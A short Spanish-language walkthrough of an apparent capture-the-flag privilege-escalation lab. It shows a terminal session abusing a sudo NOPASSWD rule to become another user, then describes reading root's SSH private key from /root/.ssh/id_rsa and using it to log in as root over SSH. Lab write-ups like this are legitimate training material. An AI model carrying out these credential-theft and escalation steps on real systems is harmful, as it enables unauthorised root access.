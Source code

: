 
Laboratorio: 
user1@ng-450064-gettingstartedprivesc-c7kg2-67bc8db6c6-kdhzh:/home/user2$ sudo user
user1@ng-450064-gettingstartedprivesc-c7kg2-67bc8db6c6-kdhzh:/home/user2$ sudo -l
Matching Defaults entries for user1 on
    ng-450064-gettingstartedprivesc-c7kg2-67bc8db6c6-kdhzh:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on
        ng-450064-gettingstartedprivesc-c7kg2-67bc8db6c6-kdhzh:
    (user2 : user2) NOPASSWD: /bin/bash
user1@ng-450064-gettingstartedprivesc-c7kg2-67bc8db6c6-kdhzh:/home/user2$ sudo -u user2 /bin/bash
user2@ng-450064-gettingstartedprivesc-c7kg2-67bc8db6c6-kdhzh:~$ whoami
user2
user2@ng-450064-gettingstartedprivesc-c7kg2-67bc8db6c6-kdhzh:~$ 

cat /root/.ssh/id_rsa y vemos la clave privada del usuario root
Nos la copiamos y creamos un archivo llamado id_rsa y entramos con ssh especificando la clave privada:
Para poder ejecutarlo bien, tenemos que hacer un sudo chmod 600 a la clave id_rsa.
ssh root@94.237.56.229 -p 44342 -i id_rsa 
